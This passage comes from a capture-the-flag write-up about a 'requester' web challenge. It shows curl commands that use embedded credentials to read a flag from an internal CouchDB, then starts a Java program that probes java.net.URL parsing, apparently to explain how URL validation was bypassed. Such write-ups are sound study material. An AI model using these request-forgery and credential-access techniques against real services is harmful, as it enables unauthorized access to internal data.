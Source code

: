 I do not agree with the flag! :)
```
{JaVA_tHE_GrEAteST_WeB_lANguAge_32154}"
```

## Requester Strikes back

A second version of the requester challenge was released later and the same exploit worked without changes (just created a new database).

I'll get to this later.

```bash
$ curl -s http://tempadm:tempadm12@couchdb:5984/flagdb2/_all_docs | jq
{
  "total_rows": 1,
  "offset": 0,
  "rows": [
    {
      "id": "6f5ec542ba093d37d82aec3cf20103bc",
      "key": "6f5ec542ba093d37d82aec3cf20103bc",
      "value": {
        "rev": "1-3b34cc91306c84767621f84a7a4b0cd8"
      }
    }
  ]
}

$ curl -s http://tempadm:tempadm12@couchdb:5984/flagdb2/6f5ec542ba093d37d82aec3cf20103bc | jq
{
  "_id": "6f5ec542ba093d37d82aec3cf20103bc",
  "_rev": "1-3b34cc91306c84767621f84a7a4b0cd8",
  "flag": "flag{TYp0_InsTEad_0F_JAvA_uRl_M4dN3ss_92643}"
}
```

```
{TYp0_InsTEad_0F_JAvA_uRl_M4dN3ss_92643}"
```

## URL Madness

To understand more about what happened to the URL validation, let's create a small ~~(small and java?)~~ Java program using only the validation code.

```java
import java.net.URL;
import java.net.MalformedURLException;

public class ValidateURL {

  public static void main(String[] args) {
    String url = args[0];
    System.out.println("Input: '" + url + "'");
    try {
      URL urlURI = new URL(url);
      String urlHost = urlURI.getHost();
      System.out.println("====> How java.net.URL understood it:");
      System.out.println("Host: '" + urlHost + "'");
      System.out.println("Protocol: '" + urlURI.getProtocol() + "'");
      System.out.println("Authority: '" + urlURI.getAuthority() + "'");
      System.out.println("Path: '" + urlURI.getPath() + "'");
      System.out.println("Port: '" + Integer.toString(urlURI.getPort()) + "'");
      System.out.println("Query: '" + urlURI.getQuery() + "'");
      System.out.println("Ref/Anchor: '" + urlURI.getRef() + "'");
      System.out.println("User Info: '" + urlURI.getUserInfo() + "'");
```